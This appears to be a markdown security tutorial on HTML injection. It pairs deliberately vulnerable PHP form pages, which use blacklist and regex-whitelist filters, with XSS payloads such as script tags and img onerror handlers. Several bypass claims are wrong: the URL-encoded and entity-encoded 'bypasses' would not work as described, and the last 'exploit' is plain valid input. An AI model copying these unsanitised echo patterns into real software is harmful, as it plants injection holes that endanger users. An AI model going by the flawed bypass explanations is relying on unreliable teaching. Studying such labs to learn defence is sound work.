 
# 🔴 HTML Injection — Blacklist vs Whitelist (GET & POST)

---

## 🚫 Blacklist-Based Filtering (GET Method)

**🗂️ File:** `html-injection-black-list-get.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - GET</title>
</head>
<body>
    <h1>HTML Injection Blacklist - GET</h1>
    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']); // Removes < and >
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```url
http://example.com/html-injection-black-list-get.php?user=<h1>XSS</h1>
```

### 🛠️ Bypass Technique:

Use encoded payload:

```
<script>alert('XSS')</script>  
→ Encoded as: %3Cscript%3Ealert('XSS')%3C/script%3E
```

> ⚠️ **Weak blacklist** — only removes `<` and `>`, but many other dangerous inputs like quotes, event handlers, or `img` tags can still execute malicious code.

---

## 🚫 Blacklist-Based Filtering (POST Method)

**🗂️ File:** `html-injection-black-list-post.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - POST</title>
</head>
<body>
    <h1>HTML Injection Blacklist - POST</h1>
    <form action="html-injection-black-list-post.php" method="POST">
        User Name: <input type="text" name="user"><br>
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']);
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```html
<h1>Hello!</h1>  
<img src=x onerror=alert('XSS')>
```

### 🛠️ Bypass Technique:

Use HTML entities:

```html
&lt;img src=x onerror=alert(1)&gt;
```

> ⚠️ **Encoding evasion** — Blacklists are easy to bypass using encoded characters or alternative syntax.

---

## ⚠️ Weak Whitelist Example — Still Vulnerable

**🗂️ File:** `html-injection-white-list.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Whitelist</title>
</head>
<body>
    <h1>HTML Injection Whitelist</h1>
    <form action="html-injection-white-list.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];
        if (!preg_match('/[a-z\d_\-\.]/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```html
<h1>Injected</h1>
```

> ✅ Passes because characters like `h`, `1`, `I`, etc., are in the allowed set.

### 🛠️ Bypass Technique:

```html
a<script>alert(1)</script>
```

> ⚠️ The regex only *checks if input contains* allowed characters — it doesn’t reject bad ones **outside** the list.

---

## 🔥 `html-injection-white-list2.php` — Completely Vulnerable

**🗂️ File:** `html-injection-white-list2.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 2</title>
</head>
<body>
    <h1>Html Injection White List - 2</h1>
    <form action="html-injection-white-list2.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ❌ Weak Regex: Only checks if ONE allowed char is present
        if (preg_match('/[a-z\d_\.\-]/i', $user_name)) {
            echo '<h2>' . $user_name . '!</h2>'; // No sanitization
        } else {
            die("Don't try to Inject Code");
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```txt
a<script>alert('XSS')</script>
```

> ⚠️ Only one matching character (e.g., `a`) is enough for input to be accepted. Full injection follows.

---

## 🛡️ `html-injection-white-list3.php` — Improved, But Still Risky

**🗂️ File:** `html-injection-white-list3.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 3</title>
</head>
<body>
    <h1>Html Injection White List - 3</h1>
    <form action="html-injection-white-list3.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ✅ Strict Regex: Matches only full valid string
        if (!preg_match('/^[a-z\d\.\-\_]*$/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```
admin_user-12
```

